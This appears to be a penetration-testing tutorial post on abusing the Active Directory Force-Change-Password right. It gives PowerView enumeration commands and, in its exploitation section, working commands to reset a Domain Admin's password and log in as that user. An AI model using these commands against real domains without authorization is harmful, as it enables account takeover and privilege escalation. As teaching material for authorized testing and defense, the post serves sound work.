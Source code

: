 ```yaml
---
title:  Force-Change-Password On User
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Active Directory]
tags: []  
---
```


# Force-Change-Password

***Force-Change-Password*** : Is a permission that allows you to change user's password. If you have *Force-Change-Password* on user object, you can reset user's password without knowing the current password of the user, thereby escalating your privileges.

# Enumeration

## PowerView

### Force-Change-Password Enumeration 

Get your current user's sid by executing `whoami /user`, import powerview, then execute the below command to get the list of objects on which you have *Force-Change-Password*.

Command
```powershell

get-objectacl -resolveguids | ? {($_.securityidentifier -eq "[your_current_user_sid]") -and ($_.objectacetype -eq "User-Force-Change-Password")}

```
*below image shows the current user `usman` has Force-Change-Password. right on user object `ali`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserfcpenum.png)

### User Enumeration

Execute the below command to get more information about the target user.

Command

```powershell

get-netuser [target_user]

```
*below image shows the target user `ali` is a member of `Domain Admins`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallenum2.png)

## BloodHound

You can also get thesame result using bloodhound.

*below image shows the current user `usman` has GenericAll right on user object `ali` who is a member of `Domain Admins`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserfcpb.png)

# Exploitation

## PowerView

### Reset Password

Since you have *Force-Change-Password* right on user `ali`, you can reset his password and login to his account by executing the below command

Command

```powershell

$pass = ConvertTo-SecureString '[Your New Password Here]' -AsPlainText -Force
set-domainuserpassword -identity [target_user] -accountpassword $pass 
runas /user:[domain\user] cmd.exe
```

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallenum3.png)

# References

- [https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2](https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)

